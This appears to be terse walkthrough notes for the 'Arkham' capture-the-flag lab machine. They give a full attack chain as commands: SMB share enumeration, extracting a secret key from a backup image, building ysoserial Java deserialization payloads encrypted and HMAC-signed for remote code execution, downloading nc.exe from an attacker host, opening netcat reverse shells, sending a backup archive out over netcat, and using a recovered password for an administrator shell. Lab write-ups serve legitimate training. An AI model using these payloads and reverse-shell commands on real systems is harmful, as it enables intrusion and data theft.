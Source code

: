 /css (Status: 302)
/fonts (Status: 302)
/images (Status: 302)
/index.html (Status: 200)
/js (Status: 302)


echo exit | smbclient -L \\\\10.10.10.130

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------

	ADMIN$          Disk      Remote Admin
	BatShare        Disk      Master Wayne's secrets
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      

Reconnecting with SMB1 for workgroup listing.

You will get one .img file from Batshare. use binwalk -e to extract it, then go to appserver/_backup.img.extracted/825A23/Mask/tomcat-stuff/web.xml.bak there you will get 

secret: SnNGOTg3Ni0=(JsF9876-), algorithm: HmacSHA1, hex_of_key: 4a7346393837362d

http://10.10.10.130:8080/userSubscribe.faces, There is hmacsha1 value there will lead to RCE.


https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf

https://github.com/frohoff/ysoserial

https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d

`java -jar ysoserial.jar CommonsCollections5 'ping -n 3 ip' > ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py`

`base64 -d <<<abXMqIAUzdaQA25mFb1ovRxccCw= >> ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`


url encode and use it.


`java -jar ysoserial.jar CommonsCollections5 'Powershell "Invoke-WebRequest -Uri http://ip:8081/nc.exe -OutFile nc.exe"'> ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py `

`base64 -d <<< ArqWVb1VFRSsNaUqCAuW9tqJj4Y= >>ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`

url encode and use it.


`java -jar ysoserial.jar CommonsCollections5 'nc.exe ip 5546 -e cmd.exe"' >ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py`

`base64 -d <<< pGm5fNa37T+rO7I4kPVOH5HokpE= >> ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`

url encode and use it.


`Powershell "Invoke-WebRequest -Uri http://ip:8081/JAWS/jaws-enum.ps1 -OutFile jaws-enum.ps1"`

`powershell -File jaws-enum.ps1`


`nc -l -p 5547 > backup.zip (receiver end)`

`C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe -w 3 ip 5547 < backup.zip (sender)`

`readpst outlook_folder`

you will get base64 encoded image then decode it, it will show you the password of batman

`batman:Zx^#QZX+T!123`


`$username = 'batman';`

`$password = 'Zx^#QZX+T!123';`

`$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`

`$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword`

`Invoke-Command -ComputerName ARKHAM -Credential $credential -ScriptBlock {C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe ip 5547 -e cmd.exe}`

It will give you reverse connection.

net use E: \\ARKHAM\C$

E:

cd Users\Administrator\Desktop

more root.txt
